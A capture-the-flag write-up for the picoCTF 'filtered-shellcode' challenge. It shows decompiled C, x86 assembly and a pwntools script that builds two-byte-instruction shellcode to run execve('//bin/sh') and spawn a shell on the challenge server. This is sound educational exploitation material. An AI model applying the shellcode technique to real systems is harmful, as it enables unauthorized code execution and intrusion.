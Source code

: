# Writeup - filtered-shellcode
Category: Binary Exploitation, Points: 160


## Descpriton

> A program that just runs the code you give it? That seems kinda boring... 

We can connect to it with ` nc mercury.picoctf.net 37853` and a 32-bit binary file is shared.


## Vulnerability

If we decompile the binary through `ghidra` we get two functions inside the file. `main` and `execute`. The `main` function simply reads input character by character but the `execute` function is important.

Code for the `execute` function.

```c
void execute(int shellcode,int len)
{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This function basically runs shellcode, except if for every 2 bytes of shellcode it replaces the bytes with `0x90`. `0x90` means `nop`. So, if our shellcode is just written as is. It would be replaced with `0x90` for every 2 bytes.

Hence, our shellcode must have instructions that are at most 2 bytes long. 

The main idea is to call `execve("//bin/sh", NULL, NULL)`. But to do this successfully, our shellcode has to have 2-byte instructions. 

We can do this by converting assembly code into shellcode, with `pwntools`. So the main task is to come up with the assembly code to call `execve("//bin/sh", NULL, NULL)`.


## Exploit

The hard part is not calling `//bin/sh` with `execve`. It is writing the shellcode.

For context. `eax, ebx, ecx, edx` are general purpose registers. Each register has a purpose. With respect to the problem at hand `eax` acts like the function invoker. `ebx` is generally the first argument to the function, then `ecx` is second, `edx` is third so on.

To know more about 32-bit calling conventions. Visit this [page](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

The basic plan:

1. Push `//bin/sh` on to the stack, so that `esp` points to it.
2. Put `//bin/sh` into the `ebx` register and assign `ecx` and `edx` to `0`.
3. `mov al, 11`. `11` is the 32-bit syscall for `execve`. This moves `execve` to `eax`.
4. `int 0x80` to call `execve` which would have `ebx` as its first argument.

```assembly
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

Now this is quite straightforward except that we need create 2-byte instruction shellcode.

Let's focus on how to trim each instruction to 2-bytes. If we now dig deeper into assembly x86, for each GP register, we have a way the data is stored.

```console
eax -> 00000000 00000000 00000000 00000000 
## If we set eax to something, say 104 -> mov al, 104
eax -> 00000000 00000000 00000000 00000104
## eax is 32 bit or 4 bytes long
## So, if can move the value towards the MSB we would have a 2-byte instruction.
```

To make a 2 byte instruction in `eax` we should keep multiplying `eax` into `16*16`. Since the binary for `256` is `100000000`, this would shift the value in `eax` by 8 bits. Which would inturn do this.

```console
eax -> 00000000 00000000 00000104 00000000
## Now eax contains a 2-byte instruction
```

Here is the final exploit.

```python
## this code is shamelessly copied - the refrence link has the original

import sys

from pwn import *

shellcode = """
/* set all GPRs to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* set the lower bit ebx to 16 */
mov bl, 16

/* push nop to esp */
push ecx
nop

/* n/sh -> (110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* //bi -> (47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall to execve (eax ebx) */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit call to set ebx to 0*/
mov al, 1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

sh = remote("mercury.picoctf.net", "37853") if sys.argv[1] == "remote" else process("./fun")
sh.recvuntil("run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

You should get the flag.


## Reference
[Link](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)

